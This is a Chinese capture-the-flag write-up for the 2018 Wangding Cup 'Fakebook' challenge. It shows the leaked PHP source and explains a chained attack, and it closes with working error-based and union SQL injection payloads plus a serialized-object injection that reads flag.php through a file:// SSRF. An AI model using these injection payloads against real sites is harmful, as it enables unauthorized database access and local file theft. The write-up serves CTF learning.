




# 网鼎杯 2018

## Fakebook

> *2021/07/14*

### 题目

题目进去之后是一个界面


login是登录，join是注册，先扫一波后台，发现`robots.txt`



有备份文件，下载下来

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

很明显和反序列化有关，但是暂时没发现利用点，先注册一个账号，登陆一下


点击`1`，发现显示出来百度的页面信息



结合上面的代码，可以想到是`SSRF`的问题，因为源代码中限制了协议类型，无法绕过，需要借助**反序列化**，将payload插入，读出`flag`，但是目前还是没有利用点，试一下展示页面的`no`参数，发现存在**SQL注入**，首先采用联合查询，`no=-1/**/union/**/select/**/1,2,3,4`，查看页面信息



发现路径为`/var/www/html`，继续采用**报错注入**，可以爆出数据库，表，列名，可以发现其中`data`字段就是存储反序列化数据的字段



然后采用联合查询的方法，将序列化数据导入即可

### payload

```
view.php?no=1^extractvalue(1,concat('~',database()))%23
// [*] query error! (XPATH syntax error: '~fakebook')
view.php?no=1^extractvalue(1,concat('~',  (select(group_concat(table_name))from(information_schema.tables)where((table_schema)=('fakebook')))))%23
// [*] query error! (XPATH syntax error: '~users')
view.php?no=1^extractvalue(1,concat('~',  (select(group_concat(column_name))from(information_schema.columns)where((table_name)=('users')))))%23
// [*] query error! (XPATH syntax error: '~no,username,passwd,data,USER,CU')
no=-1/**/union/**/select 9,5,3,'O:8:"UserInfo":3:{s:4:"name";s:4:"test";s:3:"age";i:123;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
// return flag
```